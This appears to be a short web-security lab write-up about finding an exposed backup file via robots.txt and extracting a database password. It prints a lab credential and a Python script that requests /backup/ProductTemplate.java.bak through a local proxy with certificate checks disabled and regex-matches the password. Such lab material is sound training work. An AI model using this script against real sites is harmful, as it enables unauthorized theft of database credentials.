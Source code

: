 
Target Goal - Find the hidden back up file and retrieve the database password.

Checks for /robots.txt
/backup

DB credentials: postgre: lewpap0k8r0mnqyq6j2jwue9hl9gj90b

```python
import requests
import sys
import urllib3
import re 

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def retrive_database_password(s, url):
    bak_file_url = url + "/backup/ProductTemplate.java.bak"
    r = s.get(bak_file_url, verify=False, proxies=proxies)
    res = r.text
    if (r.status_code == 200):
        print("(+) Found backup file!")
        database_password = re.search('"[0-9a-zA-Z]{32}"', res)
        print("(+) The following is the database password: " + database_password.group(0))

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    retrive_database_password(s, url)

if __name__ == "__main__":
    main()
```